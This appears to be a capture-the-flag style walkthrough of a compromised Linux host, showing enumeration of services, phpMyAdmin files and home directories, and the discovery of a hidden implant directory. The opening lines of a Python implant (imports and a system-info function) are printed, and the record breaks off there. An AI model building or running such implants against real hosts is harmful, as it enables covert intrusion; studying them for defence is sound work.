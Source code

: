 ```bash
ada@...:~$ systemctl --type=service --state=running
UNIT                        LOAD   ACTIVE SUB     DESCRIPTION                >
  accounts-daemon.service     loaded active running Accounts Service           >
  amazon-ssm-agent.service    loaded active running amazon-ssm-agent           >
  apache2.service             loaded active running The Apache HTTP Server     >
  atd.service                 loaded active running Deferred execution schedule>
  cron.service                loaded active running Regular background program >
  dbus.service                loaded active running D-Bus System Message Bus   
``` 

```bash
ada@...:/var/www/phpmyadmin$ ls
ajax.php                  robots.txt
browse_foreigners.php     schema_export.php
ChangeLog                 scripts
changelog.php             server_binlog.php
``` 


```bash
ada@...:/var/www/phpmyadmin/scripts$ ls
advisor2po            phpunit-top-tests
create-release.sh     remove-incomplete-mo
fix-po-twig           transformations_generator_main_class.sh
generate-mo           transformations_generator_plugin.sh
generate-twig-cache   update-po
lang-cleanup.sh       upload-release
locales-contributors
``` 

```bash
ada@...:/home$ ls
ada  fi  ssm-user  ubuntu
```

```bash
ada@...:~$ cd .implant
ada@...:~/.implant$ ls -lah
total 24K
drwxrwxr-x 2 ada  ada  4.0K Sep 08 20:04 .
drwxr-xr-x 5 ada  ada  4.0K Mar 13  2023 ..
-rw-rw-r-- 1 ada  ada  7.7K Aug 27 20:57 10.201.20.196.log
-rw-r--r-- 1 root root   14 Aug 27 20:03 hosts
-rw-rw-r-- 1 ada  ada  3.7K Mar 13  2023 implant.py
``` 


```bash
ada@...:~/.implant$ cat implant.py
import base64
import binascii
import json
import platform
import subprocess
import time
from datetime import datetime
from pathlib import Path

import requests


def systeminfo():
    return {
        'os': platform.system(),
        'hostname': platform.node(),
    }


```